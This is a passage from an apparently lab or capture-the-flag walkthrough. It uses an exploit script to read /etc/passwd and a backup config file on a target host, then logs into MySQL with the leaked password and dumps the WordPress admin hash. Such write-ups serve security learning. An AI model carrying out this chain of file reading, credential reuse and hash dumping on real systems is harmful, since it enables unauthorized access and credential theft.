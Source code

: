 ```
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ftp:x:106:113:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
mysql:x:107:114:MySQL Server,,,:/nonexistent:/bin/false
Debian-exim:x:108:115::/var/spool/exim4:/usr/sbin/nologin
joseph:x:1000:1000::/home/joseph:/bin/sh
```

From this, we can read the `automysqlbackup` file. It turns out to be a very long `bash` script with a lot of irrelevant stuff. We can read the `/etc/default/automysqlbackup` file to find some credentials:

```
$ python3 50420.py http://192.168.243.167 /etc/default/automysqlbackup
# Username to access the MySQL server e.g. dbuser
USERNAME=backup

# Username to access the MySQL server e.g. password
PASSWORD=EverydayAndEverynight420

# Host name (or IP address) of MySQL server e.g localhost
DBHOST=localhost
```

With this, we can login to the MySQL instance.

### MySQL Enum --> WP Plugins --> Reset Mail

```
$ mysql -h 192.168.243.167 -u backup -pEverydayAndEverynight420
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 131
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wordpress          |
+--------------------+
2 rows in set (0.180 sec)
```

Let's enumerate `wordpress` and get the administrator hash:

```
MariaDB [wordpress]> select * from wp_users;
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email      | user_url           | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$BQRpFYXVT4fNnin4CFuOiqUHRWchS40 | admin         | joseph@maria.pg | http://example.com | 2021-05-19 15:14:10 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-----------------+--------------------+---------------------+---------------------+-------------+--------------+
```
